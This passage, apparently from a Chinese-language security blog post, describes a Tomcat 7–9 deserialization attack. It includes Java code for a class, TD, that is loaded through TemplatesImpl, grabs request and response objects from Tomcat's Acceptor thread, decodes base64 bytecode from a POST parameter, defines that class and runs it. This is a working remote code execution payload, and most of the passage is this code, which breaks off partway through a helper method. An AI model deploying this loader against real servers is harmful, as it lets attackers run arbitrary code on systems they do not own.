 然后再利用tomcat回显去攻击

除此之外，我们还可以从post中获取数据

适用于Tomcat 7、8、9。已解决请求头长度限制问题（从Post请求中获取字节码加载）

Tomcat 6无法利用（调试CommonsBeanutils和cc11利用链发现，反序列化时无法获取`[[B`的class类型。tomcat6的WebappClassLoader类加载器和子类加载器都找不到`[[B`的类）

**TD类代码实现**

该类是在TemplatesImpl加载的字节码的类，该类中从Acceptor线程中获取request和response对象，获取请求Post参数中的字节码base64解码后，加载调用对象的equals方法（传入获取request和response对象）。

```
package deserialize;

import java.lang.reflect.Field;
import java.util.Iterator;

public class TD {
    static {
        Object jioEndPoint = GetAcceptorThread();
        if (jioEndPoint != null) {
            java.util.ArrayList processors = (java.util.ArrayList) getField(getField(getField(jioEndPoint, "handler"), "global"), "processors");
            Iterator iterator = processors.iterator();
            while (iterator.hasNext()) {
                Object next = iterator.next();
                Object req = getField(next, "req");
                Object serverPort = getField(req, "serverPort");
                if (serverPort.equals(-1)) {
                    continue;
                }
                org.apache.catalina.connector.Request request = (org.apache.catalina.connector.Request) ((org.apache.coyote.Request) req).getNote(1);
                org.apache.catalina.connector.Response response = request.getResponse();
                String code = request.getParameter("wangdefu");
                if (code != null) {
                    try {
                        byte[] classBytes = new sun.misc.BASE64Decoder().decodeBuffer(code);
                        java.lang.reflect.Method defineClassMethod = ClassLoader.class.getDeclaredMethod("defineClass", new Class[]{byte[].class, int.class, int.class});
                        defineClassMethod.setAccessible(true);
                        Class cc = (Class) defineClassMethod.invoke(TD.class.getClassLoader(), classBytes, 0, classBytes.length);
                        cc.newInstance().equals(new Object[]{request, response});
                    } catch (Exception e) {
                        e.printStackTrace();
                    }
                }
            }
        }
    }

    public static Object getField(Object object, String fieldName) {
        Field declaredField;
        Class clazz = object.getClass();
        while (clazz != Object.class) {
            try {

                declaredField = clazz.getDeclaredField(fieldName);
                declaredField.setAccessible(true);
                return declaredField.get(object);
            } catch (Exception e) {
            }
```